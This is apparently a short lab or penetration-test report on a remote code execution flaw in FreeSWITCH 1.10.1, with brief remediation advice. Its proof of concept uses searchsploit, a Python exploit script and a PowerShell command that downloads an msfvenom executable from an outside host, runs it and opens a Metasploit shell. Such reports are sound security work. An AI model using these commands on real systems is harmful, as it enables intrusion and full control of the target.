 # Vulnerability Report : Free Switch 1.10.1 - Remote Code Execution (RCE)

* Severity : Critical

* Tool Used : Nmap + Searchsploit + Python

* CVE : No  
* EBD ID(ExploitDB ID) : 47799
 
* Impact : Allow to gain full control over the target System.

* Proof of Concept (POC):  

1. Search for freeswitch on the searchsploit : `searchsploit freeswitch`  
2. Copy the Available Script into your System : `searchsploit -m <exploit>`  
3. Then using Python Run the script, provide the IP of target and Command to execute on target system.  
```
python3 Freeswitch.py 192.168.0.104 'powershell Invoke-WebRequest -URI http://192.178.0.101/msfvenom_exploit.exe -o C:\TEMP\browser.exe'
```  
```
python3 Freeswitch.py 192.168.0.104 'C:\TEMP\browser.exe'
```  
4. Meanwhile, keep your metasploit listener running to get the shell access from the target system. 

* Recommendation:  

 - Change the Default Password to a complex one.  
 - If up-to-date version is available download from your software/service official repositiory.

* Attachments:  

![exploitDB](<screenshots/Screenshot 2025-05-27 142336.png>)  
![nmap](<screenshots/Screenshot 2025-05-27 140605.png>)  
![search](<screenshots/Screenshot 2025-05-27 140704.png>)  
![usage](<screenshots/Screenshot 2025-05-27 141023.png>)   
![shell](<screenshots/Screenshot 2025-05-27 141516.png>)  
![session](<screenshots/Screenshot 2025-05-27 142047.png>)



